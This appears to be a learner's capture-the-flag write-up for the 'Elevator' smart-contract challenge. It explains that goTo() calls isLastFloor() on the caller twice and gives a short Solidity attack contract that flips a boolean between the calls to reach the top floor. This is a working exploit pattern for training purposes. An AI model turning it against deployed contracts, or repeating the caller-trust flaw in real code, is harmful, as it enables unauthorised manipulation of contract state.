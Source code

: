 ## Elevator

1. This was too easy but at first i was like why is there a msg.sender in calling contract. And i watched a video then after 5 mins i understood that you attack as a contract and have that function in the attacking contract and it calls to attacking contract function. A trickky but easy.

- sauce: `https://www.youtube.com/watch?v=hlq-a8g17c4`

2. in Elevator contract the goTo() is the only function that can be called and it calls msg.sender contract function isLastFloor() and so our function should return false first in order to be true because of negation and then floor updates and then our isLastfloor() is false but should return true so that top variable updates.

3. We can do it in multiple way like use a counter and update the top on second call... or reverse the boolean during calls ... the video had reverse the boolean so i used that.

> Code :

```solidity

// i had copy pasted the instance contract given in challege above Attack

contract Attack {
    Elevator elevator;

    constructor(address _addr) {
        elevator = Elevator(_addr);
    }

    bool public makeItFalseAndThenTrue = true;

    function isLastFloor(uint) external returns (bool){
        makeItFalseAndThenTrue = !makeItFalseAndThenTrue;
        return makeItFalseAndThenTrue;
    }

    // call attack
    function attack() external {
        elevator.goTo(0);
    }
}
```

3. success

